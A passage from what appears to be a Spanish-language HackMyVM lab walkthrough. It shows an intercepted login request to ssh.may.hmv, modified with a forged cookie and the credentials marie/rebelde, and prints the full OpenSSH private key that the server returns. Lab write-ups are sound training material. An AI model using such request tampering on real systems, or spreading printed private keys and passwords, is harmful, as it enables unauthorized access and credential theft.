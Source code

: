 Veremos que no se esta estableciendo la `Cookie` por lo que con la peticion interceptada, vamos a añadir dicho campo de la `Cookie` para que nos podamos `loguear` quedando de esta forma:

```
POST /check.php HTTP/1.1
Host: ssh.may.hmv
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://ssh.may.hmv
Connection: keep-alive
Referer: http://ssh.may.hmv/
Cookie: Sweetcookie=HMVHMXHMVHMXHMVHMXHMVHMX
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user=marie&password=rebelde
```

Ahora si le damos a `enviar` veremos lo siguiente:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA3HwQ6G67tSrcxTN2oOKplVae0b+gVe0x/btFSgGJy2bMoWc14qBO
jE7cEcO8tEB85mI3ftByjp6ZVcQWdmEFvqDjeiGvucu0cnO/kTYZGue34/P0+3TJ4Dn92l
L5neeFJC37yHtgxGv1XZ3aQ6mN/XY6okPpjhECZieH8849P+vclhBsXcZPNwZ1vkXAinaY
T6e1vDJA94l4ioDgj/S48gFuR1OExpsxM+c1uggIcd/GgFyVHy7i/hdm78p09vnmWj8sw2
XUd8XGIJOZRHMx0xAw2ezkHC93buwL2KRxez9e5nsLMfKUYNBd7T/16AfS6lRvkvCBPAJs
aBOPbycNKQAAA8BCdu/2Qnbv9gAAAAdzc2gtcnNhAAABAQDcfBDobru1KtzFM3ag4qmVVp
7Rv6BV7TH9u0VKAYnLZsyhZzXioE6MTtwRw7y0QHzmYjd+0HKOnplVxBZ2YQW+oON6Ia+5
y7Ryc7+RNhka57fj8/T7dMngOf3aUvmd54UkLfvIe2DEa/VdndpDqY39djqiQ+mOEQJmJ4
fzzj0/69yWEGxdxk83BnW+RcCKdphPp7W8MkD3iXiKgOCP9LjyAW5HU4TGmzEz5zW6CAhx
38aAXJUfLuL+F2bvynT2+eZaPyzDZdR3xcYgk5lEczHTEDDZ7OQcL3du7AvYpHF7P17mew
sx8pRg0F3tP/XoB9LqVG+S8IE8AmxoE49vJw0pAAAAAwEAAQAAAQEAuDe81Mc4dG1Emkue
cVwQfuMpvWxTZZfSLgKbKPNSEy1oCe83OYvhNR/qhbk6YIyFDuS/I2i8XmcrDFrSvcPgzd
6VUYT10tHdiccmJwjBPxaeMYqyhKqWxY8Oh6zOPN2lA46cEWzsdBETqE1sgR4Ysc5nvQ3r
BTU3AO1EjTMjP9Sfo+GbbZq292h/WUlN3+34VngnTZg7RM2th4tk00sc07iiRLAh3DQ9Yo
7S8QWJQhVJAO/3UmhmsK8Sb44BJ/cYZd+SC6BV+RwsnrS+JyeUs1zctJzBSpxX6+9ko4oN
VGIWnYce1Jxrz1cxgwnEEsb2BnamTyRAJoWW4fU7NYzIkQAAAIANhgRfAVu6xVNyEXXOFg
263Uqp45OG8qhhONwk5wzJUE3GiD9mj1YZMYejEfTGoTwk2x9DAgQhk5cAAPrRJpC221NJ
72B0fllexMzO8RfizG345S04i40vjOgq+/iweU2+pRccJNFlRSZgKl8FJ1zmpP5fAQGQVo
NVgkzCDsu/MwAAAIEA8Q4y6353GpFasya8P60/8lOAl8RglmnS56Yt9kjdIBQvUVKDPPNP
qy9Ki3mJXLTbr+dPi2yaMTGr02rYVwGhLmykswXPQPzcdeuxt4ufYld8G3UgxNejsiYqWT
AkdYBaM6g2M/J/MWQY6WLhXMQhK75C6ZCbsrR3F8ffi0XF8TUAAACBAOonYvqdEgrAiYK/
l1iMe5oHRwklV/d5eEM/8bTl0MgDEhMYRLkmkuuhOb6rVIz3y3PVmE0zeQa2u6qj0stmLm
34pXoHjrR2KlUk5pvoXbcvm8TvnHypnIwls1QL5WsHMGNjt/AbboqLkA2m+v9IEEIww40w
8fGOoN87zX40QP6lAAAACW1hcmllQG1heQE=
-----END OPENSSH PRIVATE KEY-----
```
